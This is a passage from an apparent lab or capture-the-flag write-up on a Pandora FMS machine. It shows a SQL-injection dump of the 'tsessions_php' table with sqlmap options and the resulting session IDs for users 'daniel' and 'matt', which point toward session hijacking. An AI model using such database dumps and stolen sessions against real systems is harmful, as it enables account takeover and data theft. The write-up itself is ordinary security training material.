 
These look like MD5 hashes, but neither cracks in
[CrackStation](https://crackstation.net/).

Another table that jumps out is `treset_password`, but it’s empty, and I can’t
find a way to trigger a reset.

#### Dump Sessions

Looking through the table names, it looks like the PHP sessions could be
stored in `tsessions_php`. I’ll dump it with `-D pandora -T tsessions_php
--dump --where "data<>''"`:

    
    
    Database: pandora                                                                                        
    Table: tsessions_php                                                                                     
    [20 entries]                                                                                             
    +----------------------------+-----------------------------------------------------+-------------+
    | id_session                 | data                                                | last_active |                                                                                                                 
    +----------------------------+-----------------------------------------------------+-------------+       
    | 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                            | 1638783555  |
    | 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                            | 1638540332  |
    | 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                            | 1638535373  |       
    | 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                            | 1638281946  |
    | 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                            | 1641195617  |
    | 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                            | 1638446321  |
    | 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                            | 1638881787  |
    | agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                            | 1638881664  |       
    | f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                            | 1641200284  |
    | g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                            | 1638783230  |
    | g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |       
    | hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                            | 1638168492  |  
    | j6cbj3ng5243q6ikad06ad65bp | id_usuario|s:6:"daniel";                            | 1652903458  |  
    | jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                            | 1638456173  |       
    | o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                            | 1638540482  |       
    | oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                            | 1637667827  |       
    | pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                            | 1638168416  |
    | rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                            | 1638889082  |
    | u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                            | 1638547193  |       
    | u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                            | 1638793297  |       
    +----------------------------+-----------------------------------------------------+-------------+
    